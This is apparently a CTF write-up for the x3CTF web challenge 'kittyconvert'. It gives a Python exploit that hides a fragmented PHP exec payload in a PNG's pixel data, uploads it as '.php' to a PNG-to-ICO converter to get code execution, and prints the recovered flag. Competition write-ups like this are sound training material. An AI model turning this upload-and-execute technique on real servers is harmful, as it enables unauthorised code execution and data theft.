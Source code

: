 ```yaml
---
layout: post
title: x3CTF - kittyconvert
date: 2025-01-29 13:56 -0400
---
```


https://ctftime.org/event/2467

# kittyconvert (Web)
php converter png -> ico

## Solution
This challenge has two parts, a bug on the filename that allows us to upload a file called `.php` and how to write the actual payload to it.

```python
from PIL import Image
import requests

REMOTE = "https://ced03a4e-6413-4ee4-85b7-dcbbb5d5ddeb.x3c.tf:1337/"

def run():
    png = "new.png"
    width, height = 32, 32
    image = Image.new("RGBA", (width, height))

    # for c in range(256):
    payload = '<?php ex' + \
              'ec( ' + \
              '\'cat' + \
              ' /f*' + \
              ' >/v' + \
              'ar/"' + \
              'www"' + \
              '/ht"' + \
              '"ml"' + \
              '"/ab' + \
              '.php' + \
              '\' ) ' + \
              f';{chr(35)}  '

    final = ""
    idx = 0
    for i in range(int(len(payload)/4)):
        color = list(payload[idx:idx+4])
        idx += 4

        tmp = color[0]
        color[0] = color[2]
        color[2] = tmp
        color = "".join(color)

        final = final + ("AAAA" * 31)
        final = final + color


    final = final + "A" * (4096 - len(final))

    idx = 0
    for x in range(width):
        for y in range(height):
            color = tuple(ord(c) for c in final[idx:idx+4])
            idx += 4
            image.putpixel((x, y), color)
    
    image.save(png)

    res = requests.post(
       REMOTE,
       files={"file": (".php", open(png, "rb").read()), "submit": "Convert"},
    )
    res = requests.get(
       REMOTE + "/uploads/.php",
    )
    res = requests.get(
       REMOTE + "/ab.php",
    )
    print(f"DEBUGPRINT[17]: lab.py:58: res.text={res.text}")

image = run()
```

## Flag
`x3c{b1tm4p5_4r3_s1mpl3_6u7_7h3_4lph4_1s_w31rd}`

shafouz 2025/01/26
